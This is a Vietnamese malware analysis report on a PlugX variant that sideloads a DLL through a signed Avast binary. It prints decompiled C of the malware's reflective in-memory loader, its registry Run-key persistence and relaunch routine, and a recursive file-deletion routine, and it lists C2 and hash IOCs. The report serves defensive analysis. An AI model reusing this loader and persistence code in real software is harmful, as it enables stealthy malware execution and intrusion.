








# Mã độc PlugX - Version 20191031

<!-- Start Document Outline -->

- [I - Thông tin chung](#i---thông-tin-chung)
  - [1. Các file mã độc](#1-các-file-mã-độc)
  - [2. Luồng hoạt động của mã độc](#2-luồng-hoạt-động-của-mã-độc)
- [II - Phân tích chi tiết hành vi của mã độc](#ii---phân-tích-chi-tiết-hành-vi-của-mã-độc)
  - [2.1. DLL Search Order Hijacking](#21-dll-search-order-hijacking)
  - [2.2. Deobfuscate/Decode Files or Information](#22-deobfuscatedecode-files-or-information)
  - [2.3. Module](#23-module)
  - [2.4. Persistence: Registry Run Keys](#24-persistence-registry-run-keys)
  - [2.5. Process Argument Spoofing](#25-process-argument-spoofing)
  - [2.6. Access Token Manipulation](#26-access-token-manipulation)
  - [2.7. Replication Through Removable Media](#27-replication-through-removable-media)
  - [2.8. Encrypted Channel: Symmetric Cryptography](#28-encrypted-channel-symmetric-cryptography)
  - [2.8. Non-Application Layer Protocol](#28-non-application-layer-protocol)
  - [2.9. Exfiltration Over C2 Channel](#29-exfiltration-over-c2-channel)
  - [2.10. File and process discovery](#210-file-and-process-discovery)
  - [2.11. Native API](#211-native-api)
- [III - IOC](#iii---ioc)
- [IV - Att&CK Technique mapping](#iv---attck-technique-mapping)

## <!-- End Document Outline -->

# I - Thông tin chung

## 1. Các file mã độc

| Tên File      | MD5                              |     |
| ------------- | -------------------------------- | --- |
| AvastSvc.exe  | A72036F635CECF0DCB1E9C6F49A8FA5B |     |
| wsc.dll       | FD866F6E1B997C31BDB6BA24361663E5 |     |
| AvastAuth.dat |                                  | IOC |

## 2. Luồng hoạt động của mã độc



---

# II - Phân tích chi tiết hành vi của mã độc

## 2.1. DLL Search Order Hijacking

Mã độc lợi dụng File có chữ kí số của Avast để khởi chạy DLL độc.


File này có nhiệm vụ load DLL “wcs.dll” và chạy hàm có tên “run” trong đó.


Tại thư viện độc wcs.dll, mã độc export hàm có tên "run".


## 2.2. Deobfuscate/Decode Files or Information

Mã độc tiến hành load load file "AvastAuth.dat", decrypt file này bằng key có sẵn


Giá trị Key là 10 byte đầu của file data này


Sau khi được giải mã, file data trở thành một thư viện DLL, sau đó được manual load vào trong tiến trình Avast đang chạy bởi thư viện wcs.dll


## 2.3. Module

Cách thức mã độc Load DLL được Decompile lại như sau:

```C
char v1[4]; // [esp+0h] [ebp-64h] BYREF
PIMAGE_DOS_HEADER v2; // [esp+4h] [ebp-60h]
_LIST_ENTRY *v3; // [esp+8h] [ebp-5Ch]
LDR_DATA_TABLE_ENTRY *VirtualProtect_VA; // [esp+10h] [ebp-54h]
PIMAGE_DOS_HEADER AllocatedAddress_VA_1; // [esp+14h] [ebp-50h]
_LIST_ENTRY *SizeOfAllocation; // [esp+18h] [ebp-4Ch]
LDR_DATA_TABLE_ENTRY *NtFlushIntructionCache_VA; // [esp+1Ch] [ebp-48h]
LDR_DATA_TABLE_ENTRY *GetProcAddress_VA; // [esp+20h] [ebp-44h]
int (__stdcall *LoadLibraryA_VA)(char *); // [esp+24h] [ebp-40h]
int NumberOfSections; // [esp+28h] [ebp-3Ch]
LDR_DATA_TABLE_ENTRY *VirtualAlloc_VA; // [esp+2Ch] [ebp-38h]
unsigned __int16 *v13; // [esp+30h] [ebp-34h]
int DWORD_APIHASH; // [esp+34h] [ebp-30h]
_DWORD *v15; // [esp+38h] [ebp-2Ch]
_DWORD *API_RVA; // [esp+3Ch] [ebp-28h]
PIMAGE_NT_HEADERS32 NtHeader; // [esp+40h] [ebp-24h]
_DWORD *v18; // [esp+44h] [ebp-20h]
PIMAGE_DOS_HEADER ImageVA; // [esp+48h] [ebp-1Ch]
PIMAGE_DOS_HEADER Buffer; // [esp+4Ch] [ebp-18h]
_LIST_ENTRY *Flink; // [esp+50h] [ebp-14h]
LDR_DATA_TABLE_ENTRY *Module_VA; // [esp+54h] [ebp-10h]
_LDR_DATA_TABLE_ENTRY *ModuleEntry; // [esp+58h] [ebp-Ch]
LDR_DATA_TABLE_ENTRY *AllocatedAddress_VA; // [esp+5Ch] [ebp-8h]
unsigned __int16 Length; // [esp+60h] [ebp-4h]

LoadLibraryA_VA = 0;
GetProcAddress_VA = 0;
VirtualAlloc_VA = 0;
VirtualProtect_VA = 0;
NtFlushIntructionCache_VA = 0;
AllocatedAddress_VA_1 = 0;
SizeOfAllocation = 0;
for ( ImageVA = CurrentModule_VA(); ; ImageVA = (ImageVA - 1) )
{
  if ( ImageVA->e_magic == 'ZM' ) // MZ Header
  {
    NtHeader = ImageVA->e_lfanew;
    if ( NtHeader >= 0x40 && NtHeader < 0x400 )
    {
      NtHeader = (NtHeader + ImageVA);
      if ( NtHeader->Signature == 'EP' ) // PE Header
        break;
    }
  }
}
AllocatedAddress_VA = NtCurrentPeb()->Ldr;
for ( ModuleEntry = AllocatedAddress_VA->InInitializationOrderLinks.Blink;
      ModuleEntry;
      ModuleEntry = ModuleEntry->InLoadOrderLinks.Flink )
{
  Buffer = ModuleEntry->FullDllName.Buffer;
  Length = ModuleEntry->FullDllName.Length;
  Module_VA = 0;
  do
  {
    Module_VA = fn_GetHashByString(Module_VA);
    if ( LOBYTE(Buffer->e_magic) < 'a' )
      Module_VA = (Module_VA + LOBYTE(Buffer->e_magic));
    else
      Module_VA = (Module_VA + LOBYTE(Buffer->e_magic) - ' ');
    Buffer = (Buffer + 1);
    --Length;
  }
  while ( Length );
  if ( Module_VA == KERNEL32_HASH )
  {
    AllocatedAddress_VA = ModuleEntry->InInitializationOrderLinks.Flink;
    v15 = (&AllocatedAddress_VA->HashLinks.Flink[15].Flink + AllocatedAddress_VA);
    v18 = (&AllocatedAddress_VA->InLoadOrderLinks.Flink + *v15);
    v15 = (&AllocatedAddress_VA->InLoadOrderLinks.Flink + v18[8]);
    v13 = (AllocatedAddress_VA + v18[9]);
    Length = 4;
    while ( Length )
    {
      DWORD_APIHASH = fn_GetHashByStringCaller(AllocatedAddress_VA + *v15);
      if ( DWORD_APIHASH == LOADLIBRARYA_HASH
        || DWORD_APIHASH == GETPROCADDRESS_HASH
        || DWORD_APIHASH == VIRTUALALLOC_HASH
        || DWORD_APIHASH == VIRTUALPROTECT_HASH )
      {
        API_RVA = (&AllocatedAddress_VA->InLoadOrderLinks.Flink + 4 * *v13 + v18[7]);
        switch ( DWORD_APIHASH )
        {
          case LOADLIBRARYA_HASH:
            LoadLibraryA_VA = (AllocatedAddress_VA + *API_RVA);
            break;
          case GETPROCADDRESS_HASH:
            GetProcAddress_VA = (AllocatedAddress_VA + *API_RVA);
            break;
          case VIRTUALALLOC_HASH:
            VirtualAlloc_VA = (AllocatedAddress_VA + *API_RVA);
            break;
          default:
            VirtualProtect_VA = (AllocatedAddress_VA + *API_RVA);
            break;
        }
        --Length;
      }
      ++v15;
      ++v13;
    }
  }
  else if ( Module_VA == NTDLLDLL_HASH )
  {
    AllocatedAddress_VA = ModuleEntry->InInitializationOrderLinks.Flink;
    v15 = (&AllocatedAddress_VA->HashLinks.Flink[15].Flink + AllocatedAddress_VA);
    v18 = (&AllocatedAddress_VA->InLoadOrderLinks.Flink + *v15);
    v15 = (&AllocatedAddress_VA->InLoadOrderLinks.Flink + v18[8]);
    v13 = (AllocatedAddress_VA + v18[9]);
    Length = 1;
    while ( Length )
    {
      DWORD_APIHASH = fn_GetHashByStringCaller(AllocatedAddress_VA + *v15);
      if ( DWORD_APIHASH == NTFLUSHINSTRUCTIONCACHE_HASH )
      {
        API_RVA = (&AllocatedAddress_VA->InLoadOrderLinks.Flink + 4 * *v13 + v18[7]);
        NtFlushIntructionCache_VA = (AllocatedAddress_VA + *API_RVA);
        --Length;
      }
      ++v15;
      ++v13;
    }
  }
  if ( LoadLibraryA_VA && GetProcAddress_VA && VirtualAlloc_VA && NtFlushIntructionCache_VA )
    break;
}
NtHeader = (ImageVA + ImageVA->e_lfanew);
AllocatedAddress_VA = (VirtualAlloc_VA)(
                        0,
                        NtHeader->OptionalHeader.SizeOfImage + 0x3C00000,
                        MEM_RESERVE|MEM_COMMIT,
                        PAGE_READWRITE);
ModuleEntry = NtHeader->OptionalHeader.SizeOfHeaders;
Buffer = ImageVA;
Module_VA = AllocatedAddress_VA;
ModuleEntry = (&NtHeader->OptionalHeader + NtHeader->FileHeader.SizeOfOptionalHeader);
NumberOfSections = NtHeader->FileHeader.NumberOfSections;
while ( NumberOfSections-- )
{
  Buffer = (ModuleEntry->InMemoryOrderLinks.Blink + AllocatedAddress_VA);
  Module_VA = (ModuleEntry->InInitializationOrderLinks.Blink + ImageVA);
  Flink = ModuleEntry->InInitializationOrderLinks.Flink;
  if ( !AllocatedAddress_VA_1 )
    AllocatedAddress_VA_1 = Buffer;
  if ( !SizeOfAllocation )
    SizeOfAllocation = Flink;
  while ( 1 )
  {
    v3 = Flink;
    Flink = (Flink - 1);
    if ( !v3 )
      break;
    LOBYTE(Buffer->e_magic) = Module_VA->InLoadOrderLinks.Flink;
    Buffer = (Buffer + 1);
    Module_VA = (Module_VA + 1);
  }
  ModuleEntry = (ModuleEntry + 40);
}
Buffer = &NtHeader->OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_IMPORT];
for ( Module_VA = (AllocatedAddress_VA
                 + NtHeader->OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_IMPORT].VirtualAddress);
      Module_VA->InMemoryOrderLinks.Blink;
      Module_VA = (Module_VA + 20) )
{
  ImageVA = LoadLibraryA_VA(Module_VA->InMemoryOrderLinks.Blink + AllocatedAddress_VA);
  Flink = (Module_VA->InLoadOrderLinks.Flink + AllocatedAddress_VA);
  ModuleEntry = (Module_VA->InInitializationOrderLinks.Flink + AllocatedAddress_VA);
  while ( ModuleEntry->InLoadOrderLinks.Flink )
  {
    if ( Flink && Flink->Flink < 0 )
    {
      v15 = (&ImageVA[1].e_res2[8] + ImageVA->e_lfanew);
      v18 = (&ImageVA->e_magic + *v15);
      API_RVA = (&ImageVA->e_magic + 4 * (Flink->Flink - v18[4]) + v18[7]);
      ModuleEntry->InLoadOrderLinks.Flink = (ImageVA + *API_RVA);
    }
    else
    {
      Buffer = (ModuleEntry->InLoadOrderLinks.Flink + AllocatedAddress_VA);
      ModuleEntry->InLoadOrderLinks.Flink = (GetProcAddress_VA)(ImageVA, &Buffer->e_cblp);
    }
    ModuleEntry = (ModuleEntry + 4);
    if ( Flink )
      Flink = (Flink + 4);
  }
}
ImageVA = (AllocatedAddress_VA - NtHeader->OptionalHeader.ImageBase);
Buffer = &NtHeader->OptionalHeader.DataDirectory[5];
if ( NtHeader->OptionalHeader.DataDirectory[5].Size )
{
  for ( Module_VA = (AllocatedAddress_VA + *&Buffer->e_magic);
        Module_VA->InLoadOrderLinks.Blink;
        Module_VA = (Module_VA + Module_VA->InLoadOrderLinks.Blink) )
  {
    ModuleEntry = (Module_VA->InLoadOrderLinks.Flink + AllocatedAddress_VA);
    Buffer = (&Module_VA->InLoadOrderLinks.Blink[-1] >> 1);
    for ( Flink = &Module_VA->InMemoryOrderLinks; ; Flink = (Flink + 2) )
    {
      v2 = Buffer;
      Buffer = (Buffer - 1);
      if ( !v2 )
        break;
      switch ( HIBYTE(LOWORD(Flink->Flink)) >> 4 )
      {
        case 10:
          *(&ModuleEntry->InLoadOrderLinks.Flink + (Flink->Flink & 0xFFF)) = (*(&ModuleEntry->InLoadOrderLinks.Flink
                                                                              + (Flink->Flink & 0xFFF))
                                                                            + ImageVA);
          break;
        case 3:
          *(&ModuleEntry->InLoadOrderLinks.Flink + (Flink->Flink & 0xFFF)) = (*(&ModuleEntry->InLoadOrderLinks.Flink
                                                                              + (Flink->Flink & 0xFFF))
                                                                            + ImageVA);
          break;
        case 1:
          *(&ModuleEntry->InLoadOrderLinks.Flink + (Flink->Flink & 0xFFF)) += HIWORD(ImageVA);
          break;
        case 2:
          *(&ModuleEntry->InLoadOrderLinks.Flink + (Flink->Flink & 0xFFF)) += ImageVA;
          break;
      }
    }
  }
}
ModuleEntry = (AllocatedAddress_VA + NtHeader->OptionalHeader.AddressOfEntryPoint);
(NtFlushIntructionCache_VA)(-1, 0, 0);
(VirtualProtect_VA)(AllocatedAddress_VA_1, SizeOfAllocation, PAGE_EXECUTE_READ, v1);
(ModuleEntry)(AllocatedAddress_VA, DLL_PROCESS_ATTACH, 0);
(ModuleEntry)(AllocatedAddress_VA, DLL_CUSTOM_ENTRY, 0);
```

Mã độc tìm kiếm các HMODULE (Virtual Address của các module) được load trong tiến trình dựa theo khối LIST_ENTRY trong khối PEB, sau đó lấy HANDLE (địa chỉ) của các API: `LoadLibraryA`, `GetProcAddress`, `VirtualAlloc`, `VirtualProtect` trong thư viện `Kernel32`, Sau đó dựa trên các API trên, mã độc Rebuild lại bảng import table của thư viện wcs.dll thành bảng import của thư viện vừa giải mã bằng việc thay đổi `OptionalHeader.DataDirectory`

Sau khi Rebuild xong, mã độc gọi vào DllMain của thư viện vừa giải mã, với 2 case là `DLL_PROCESS_ATTCH`, và `DLL_CUSTOM_ENTRY`


## 2.4. Persistence: Registry Run Keys

Mã độc thực hiện COPY 3 file payload vào folder %alluserprofile% (C:\Programdata) hoặc %userprofile% (C:\User\[Username]]) nếu thất bại, sau đó thực hiện ghi Key registry:

```C
 int __stdcall CopyFile_Persistance_ReRun_Process()
{
  unsigned int v0; // eax
  int v1; // eax
  int v2; // eax
  WCHAR UserProfile_DataPath[260]; // [esp+0h] [ebp-1D68h] BYREF
  wchar_t Ext[256]; // [esp+208h] [ebp-1B60h] BYREF
  WCHAR UserProfile_dllPath[260]; // [esp+408h] [ebp-1960h] BYREF
  wchar_t Filename[256]; // [esp+610h] [ebp-1758h] BYREF
  WCHAR ExistingFileName[260]; // [esp+810h] [ebp-1558h] BYREF
  WCHAR v9[260]; // [esp+A18h] [ebp-1350h] BYREF
  WCHAR UserProfile_String[260]; // [esp+C20h] [ebp-1148h] BYREF
  WCHAR allusersprofile_string[260]; // [esp+E28h] [ebp-F40h] BYREF
  wchar_t Dir[256]; // [esp+1030h] [ebp-D38h] BYREF
  wchar_t FullPath[260]; // [esp+1230h] [ebp-B38h] BYREF
  WCHAR String[260]; // [esp+1438h] [ebp-930h] BYREF
  WCHAR v15[260]; // [esp+1640h] [ebp-728h] BYREF
  WCHAR UserProfile_ExePath[260]; // [esp+1848h] [ebp-520h] BYREF
  WCHAR FullUserProfilePath[260]; // [esp+1A50h] [ebp-318h] BYREF
  struct _STARTUPINFOW StartupInfo; // [esp+1C58h] [ebp-110h] BYREF
  struct _PROCESS_INFORMATION hObject; // [esp+1C9Ch] [ebp-CCh] BYREF
  wchar_t SubKey[46]; // [esp+1CACh] [ebp-BCh] BYREF
  wchar_t allusersprofile[20]; // [esp+1D08h] [ebp-60h] BYREF
  wchar_t UserProfile[16]; // [esp+1D30h] [ebp-38h] BYREF
  WCHAR String2; // [esp+1D50h] [ebp-18h] BYREF
  int v24; // [esp+1D52h] [ebp-16h]
  __int16 v25; // [esp+1D56h] [ebp-12h]
  wchar_t Drive; // [esp+1D58h] [ebp-10h] BYREF
  int v27; // [esp+1D5Ah] [ebp-Eh]
  int v28; // [esp+1D60h] [ebp-8h]
  LPCWSTR lpString2; // [esp+1D64h] [ebp-4h]

  wcscpy(UserProfile, L"%userprofile%\\");
  wcscpy(allusersprofile, L"%allusersprofile%\\");
  lstrcpyW(UserProfile_String, UserProfile);
  lstrcpyW(allusersprofile_string, allusersprofile);
  lpString2 = GetDecryptedServiceName();
  lstrcatW(UserProfile_String, lpString2);
  lstrcatW(allusersprofile_string, lpString2);
  lstrcatW(UserProfile_String, L"\\");
  lstrcatW(allusersprofile_string, L"\\");
  ExpandEnvironmentStringsW(allusersprofile_string, FullUserProfilePath, 0x208u);
  if ( GetFileAttributesW(FullUserProfilePath) == INVALID_FILE_ATTRIBUTES && !CreateDirectoryW(FullUserProfilePath, 0) )
    ExpandEnvironmentStringsW(UserProfile_String, FullUserProfilePath, 0x208u);
  lstrcpyW(UserProfile_ExePath, FullUserProfilePath);
  lstrcatW(UserProfile_ExePath, L"AvastSvc.exe");
  lstrcpyW(UserProfile_dllPath, FullUserProfilePath);
  lstrcatW(UserProfile_dllPath, L"wsc.dll");
  lstrcpyW(UserProfile_DataPath, FullUserProfilePath);
  lstrcatW(UserProfile_DataPath, L"AvastAuth.dat");
  Drive = 0;
  v27 = 0;
  memset(Dir, 0, sizeof(Dir));
  memset(Filename, 0, sizeof(Filename));
  memset(Ext, 0, sizeof(Ext));
  memset(v15, 0, sizeof(v15));
  memset(FullPath, 0, sizeof(FullPath));
  memset(ExistingFileName, 0, sizeof(ExistingFileName));
  memset(v9, 0, sizeof(v9));
  GetModuleFileNameW_0(0, FullPath, 0x208u);
  _wsplitpath_s(FullPath, &Drive, 3u, Dir, 0x100u, Filename, 0x100u, Ext, 0x100u);
  wsprintfW(v15, L"%s%s", &Drive, Dir);
  wsprintfW(ExistingFileName, L"%s%s", v15, L"wsc.dll");
  wsprintfW(v9, L"%s%s", v15, L"AvastAuth.dat");
  CheckFileAlreadyExist(FullUserProfilePath);
  SetFileAttributesW_0(FullUserProfilePath, FILE_ATTRIBUTE_HIDDEN);
  SetFileAttributesW_0(FullUserProfilePath, FILE_ATTRIBUTE_HIDDEN);
  CopyFileW(FullPath, UserProfile_ExePath, 0);
  CopyFileW(ExistingFileName, UserProfile_dllPath, 0);
  CopyFileW(v9, UserProfile_DataPath, 0);
  v0 = time64(0);
  srand(v0);
  v28 = rand() % 899 + 100;
  wsprintfW(String, L"\"%s\" %d", UserProfile_ExePath, v28);
  wcscpy(SubKey, L"Software\\Microsoft\\Windows\\CurrentVersion\\Run");
  v1 = lstrlenW(String);
  RegistrySetValue(HKEY_LOCAL_MACHINE, SubKey, lpString2, String, 2 * v1 + 2, 1);
  v2 = lstrlenW(String);
  RegistrySetValue(HKEY_CURRENT_USER, SubKey, lpString2, String, 2 * v2 + 2, 1);
  String2 = 0;
  v24 = 0;
  v25 = 0;
  wsprintfW(&String2, L" %d", v28);
  lstrcatW(UserProfile_ExePath, &String2);
  memset(&hObject, 0, sizeof(hObject));
  memset(&StartupInfo, 0, sizeof(StartupInfo));
  StartupInfo.cb = 68;
  StartupInfo.dwFlags = 1;
  StartupInfo.wShowWindow = SW_NORMAL;
  if ( CreateProcessW(0, UserProfile_ExePath, 0, 0, 0, 4u, 0, 0, &StartupInfo, &hObject) )
  {
    ResumeThread(hObject.hThread);
    CloseHandle(hObject.hProcess);
    CloseHandle(hObject.hThread);
  }
  return 0;
}
```

## 2.5. Process Argument Spoofing

Mã độc thực hiện chạy lại process của bản thân với tham số random để giấu payload thật của bản thân

Dựa theo commandline khi re-run tiến trình, mã độc thực hiện các hành vi khác nhau:


## 2.6. Access Token Manipulation

Mã độc thực hiện thay đổi access token của bản thân sang quyền `SeDebugPrivilege` và `SeTcpPrivilege`


## 2.7. Replication Through Removable Media

Mã độc có khả năng lây nhiễm vào thiết bị USB dựa theo API `DeviceIOControl`

Mã độc tạo hai Mutex khi copy vào thiết bị USB

`USB_NOTIFY_COP_%ws`
<br>
`USB_NOTIFY_INF_%ws`

Mã độc thực hiện load icon trong SHELL32.dll để làm icon cho shortcut, bằng cách tạo file desktop.ini






Tại đây mã độc copy tất cả file mã độc gốc vào folder có tên RECYCLE.BIN, sau đó trỏ đường dẫn file thực thi vào file shortcut bên trên.


=> Khi nạn nhân sử dụng USB và chạy vào file shortcut bên trên, mã độc sẽ được lây nhiễm sang máy của nạn nhân.

Mã độc đăng kí một static window để tiếp tục hành vi khi phát hiện có USB mới cắm vào máy


Dựa theo Message nhận được là `WM_DEVICECHANGE`, mã độc tiếp tục hành vi copy như trên vào thiết bị mới


## 2.8. Encrypted Channel: Symmetric Cryptography

Mã độc mã hóa và giải mã config của bản thân bằng một thuật toán xor, với key là "123456789"





## 2.8. Non-Application Layer Protocol

Mã độc giao tiếp với server C2C qua TCP bằng cách thiết lập Socket qua port 80.


## 2.9. Exfiltration Over C2 Channel

Quá trình giao tiếp giữa client và server của mã độc là gửi và nhận các nội dung bị mã hóa bằng API Compression của window

Dựng một server giả để giao tiếp với mã độc


Mã độc gửi và nhận gói tin qua API `WSASend` và `WSARecv`




## 2.10. File and process discovery

Mã độc có khả năng phát hiện file / process trên hệ thống, sử dụng các API của `toolhelp32` và `FindFile` API, và kill tiến trình chỉ định bằng API `TerminateProcess`


Mã độc tìm kiếm và xóa đệ quy file trên một folder

```C
int __cdecl RecursiveFindRemoveFile(const WCHAR *PATH)
{
  WCHAR v2[260]; // [esp+0h] [ebp-678h] BYREF
  WCHAR FileName[260]; // [esp+208h] [ebp-470h] BYREF
  struct _WIN32_FIND_DATAW FindFileData; // [esp+410h] [ebp-268h] BYREF
  int v5; // [esp+660h] [ebp-18h]
  int v6; // [esp+664h] [ebp-14h]
  int v7; // [esp+668h] [ebp-10h]
  _BYTE lpFileName[12]; // [esp+66Ch] [ebp-Ch] BYREF

  memset(FileName, 0, sizeof(FileName));
  FreeHeap(lpFileName);
  wcscpy(lpFileName, PATH);
  wcscat(lpFileName, L"\\*.*");
  *&lpFileName[8] = FindFirstFileW(*lpFileName, &FindFileData);
  if ( *&lpFileName[8] == -1 )
  {
    v5 = 0;
    FreeHeapCall_0_0(lpFileName);
    return v5;
  }
  else
  {
    do
    {
      if ( (FindFileData.cFileName[0] != '.' || FindFileData.cFileName[1])
        && (FindFileData.cFileName[0] != '.' || FindFileData.cFileName[1] != 46 || FindFileData.cFileName[2]) )
      {
        if ( FindFileData.dwFileAttributes == FILE_WRITE_EA )
        {
          memset(v2, 0, sizeof(v2));
          wsprintfW(v2, L"%ws\\%ws", PATH, FindFileData.cFileName);
          RecursiveFindRemoveFile(v2);          // Recursive
        }
        memset(FileName, 0, sizeof(FileName));
        wsprintfW(FileName, L"%ws\\%ws", PATH, FindFileData.cFileName);
        DeleteFileW(FileName);
        DeleteFileW(FileName);
      }
    }
    while ( FindNextFileW(*&lpFileName[8], &FindFileData) );
    FindClose(*&lpFileName[8]);
    Sleep_0(0x64u);
    if ( RemoveDirectoryW(PATH) )
    {
      v7 = 1;
      FreeHeapCall_0_0(lpFileName);
      return v7;
    }
    else
    {
      v6 = 0;
      FreeHeapCall_0_0(lpFileName);
      return v6;
    }
  }
}
```

## 2.11. Native API

Mã độc thu thập thông tin nạn nhân qua một số API: `GetComputerNameW`, `GetUserNameW`



# III - IOC

| IOC                                                                                                                                             |                                                        |                                  |
| ----------------------------------------------------------------------------------------------------------------------------------------------- | ------------------------------------------------------ | -------------------------------- |
| 103.192.226.100                                                                                                                                 | Server điều khiển từ xa                                | n/a                              |
| AvastSvc.exe                                                                                                                                    | File có chữ kí bị side load                            | A72036F635CECF0DCB1E9C6F49A8FA5B |
| wsc.dll                                                                                                                                         | Thư viện được sideload để giải mã payload              | FD866F6E1B997C31BDB6BA24361663E5 |
| AvastAuth.dat                                                                                                                                   | Payload PlugX                                          | 03A75E4FD64E9B46D0DFFF2589D27822 |
| C:\programdata                                                                                                                                  | Folder mã độc persistence                              | n/a                              |
| Key: HKCU\Software\microsoft\window\currentversion\run<br>SubKey: AvastSvctHA<br>Value: C:\programdata\AvaseSvcyHA\AvastSvc.exe [random number] | Registry hive mã độc mã độc persistence                | n/a                              |
| Removeable Disk(?TB).lnk                                                                                                                        | File worm mã độc tạo ra trên thiết bị USB để lây nhiễm | n/a                              |

# IV - Att&CK Technique mapping


